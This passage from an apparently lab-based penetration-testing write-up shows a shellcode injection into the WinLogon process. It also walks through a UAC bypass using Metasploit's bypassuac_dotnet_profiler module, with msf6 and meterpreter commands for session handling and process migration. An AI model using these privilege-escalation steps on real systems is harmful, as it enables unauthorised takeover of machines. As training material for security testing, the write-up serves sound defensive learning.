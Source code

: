 ![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/e06e5beb-5175-4f26-9db2-48b9e49b5cd1)

- Downloaded and saved the ShellCode.
- Returned to the blue screen interface and typed `inject`.
- Entered the WinLogon process ID `580` in the prompt window to target the specific process.

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/3f17f4e9-ebba-4f1c-9966-78cee329ec5c)

- Located the ShellCode on the desktop, executed it, and successfully injected it into the WinLogon process, showcasing its potential in penetration testing scenarios.
  
![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/d1416518-4eb1-4308-be14-670cd903868e)

# UAC Bypass with Metasploit 

Aiming to elevate privileges as `s.chisholm` and migrate from a session 0 process to a session 1 process for full machine control.

### Metasploit Configuration and Execution
- Started with the exploit `windows/local/bypassuac_dotnet_profiler` in Metasploit.

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/a8edb5f2-d5fe-431a-90c1-ae038ae9507a)


- Identified potential exploits to achieve UAC bypass:

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/47b4e78e-0120-47e0-9d65-824d3692d899)

- Set the session and executed the exploit:

msf6 exploit(windows/local/bypassuac_dotnet_profiler) > set session 1
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > exploit -j
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > sessions

- Further elevated privileges and interacted with session 4:
![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/851b5432-da0c-4b51-9baf-e405f94a9b94)

msf6 exploit(windows/local/bypassuac_dotnet_profiler) > sessions -i 4
![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/d2a90b64-1908-4d5c-890d-ff42faa9d03f)
![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/a05d0a00-4c5d-4709-aca2-a79daa8a96b9)

- Migrated to process 580 and verified the user ID:
meterpreter > migrate 580
meterpreter > getuid

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/9a452dd2-1fef-4501-8a34-edfdea5d2640)

These steps demonstrated the effectiveness of UAC bypass techniques in both Covenant and Metasploit for achieving higher privileges on a target system.

# New User Persistence 
